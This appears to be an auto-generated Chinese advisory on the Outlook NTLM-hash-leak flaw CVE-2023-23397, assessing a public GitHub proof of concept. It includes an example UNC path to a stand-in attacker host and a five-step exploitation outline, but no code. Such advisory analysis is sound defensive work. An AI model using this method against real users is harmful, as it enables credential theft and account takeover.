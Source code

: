 ## CVE-2023-23397 Microsoft Outlook 权限提升漏洞

**漏洞编号:** CVE-2023-23397

**漏洞类型:** 权限提升

**影响应用:** Microsoft Outlook

**危害等级:** 高危，可能导致NTLM Relay攻击，控制受害者账户

**影响版本:** 受影响版本：Microsoft Outlook 2013 SP1, Outlook 2016, Outlook 2019, Office LTSC 2021, Microsoft 365 Apps for Enterprise (查看漏洞库信息中的详细版本范围)

**利用条件:** 攻击者需要知道目标用户的邮件地址，并能够发送邮件到目标用户的Outlook邮箱。

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2023-23397 是一个 Microsoft Outlook 中的权限提升漏洞。攻击者可以通过发送特制的电子邮件，在无需用户交互的情况下，强制 Outlook 客户端连接到攻击者控制的 SMB 服务器，从而窃取 Net-NTLMv2 哈希。利用方式如下：

1.  **漏洞原理：** Outlook 在处理邮件时，如果邮件中包含 `ReminderSoundFile` 属性指向 UNC 路径（例如 `\\attacker_ip\share\sound.wav`），Outlook 会尝试连接到该路径。该连接使用用户的 Windows 凭据进行身份验证，因此攻击者可以捕获 Net-NTLMv2 哈希。

2.  **PoC 代码分析：**  提供的 PoC 代码 `Exploit.py`  利用 `win32com.client` 库来创建包含恶意 `ReminderSoundFile` 属性的 Outlook 日程安排。脚本会要求攻击者输入目标电子邮件地址和攻击者的 IP 地址（c2，也就是接收哈希的服务器）。然后，它将 UNC 路径设置为 `\\attacker_ip`，并将其设置为 `ReminderSoundFile` 属性。该脚本可以选择将恶意邮件保存为 `.msg` 文件或直接发送。

3.  **有效性评估：** 结合漏洞库信息、搜索引擎结果和 PoC 代码，可以确定该 PoC 代码是有效的。该漏洞已经被广泛研究和利用，并且CISA的已知被利用漏洞目录中也包含了该漏洞。

4.  **投毒风险评估：**  
    *   PoC 代码的主要功能是生成利用 CVE-2023-23397 漏洞的恶意邮件。代码本身看起来比较直接，没有明显的恶意行为，例如安装后门或执行其他未声明的操作。
    *   风险点可能存在于攻击者提供的 `attacker_ip` 参数。如果攻击者控制了该 IP 地址，他们可以捕获 NTLM 哈希。但是，这属于漏洞本身的利用方式，而不是 PoC 代码的投毒行为。
    *   文件LICENSE和README.md没有发现异常
    综合考虑，PoC 代码本身存在作者隐藏的恶意代码的风险较低。但始终需要保持警惕，在运行 PoC 代码之前，应仔细检查代码，并在隔离环境中运行。

5.  **利用方式总结：**
    1.  攻击者构造包含恶意 `ReminderSoundFile` 属性的 Outlook 日程安排。
    2.  将该日程安排以邮件的形式发送给目标用户。
    3.  当目标用户在 Outlook 中打开该邮件时，Outlook 客户端会尝试连接到 `ReminderSoundFile` 属性指定的 UNC 路径。
    4.  攻击者监听 SMB 流量，捕获 Net-NTLMv2 哈希。
    5.  攻击者可以使用捕获的哈希进行 NTLM Relay 攻击或尝试破解哈希以获得用户密码。

**项目地址:** [Pushkarup/CVE-2023-23397](https://github.com/Pushkarup/CVE-2023-23397)

**漏洞详情:** [CVE-2023-23397](https://nvd.nist.gov/vuln/detail/CVE-2023-23397)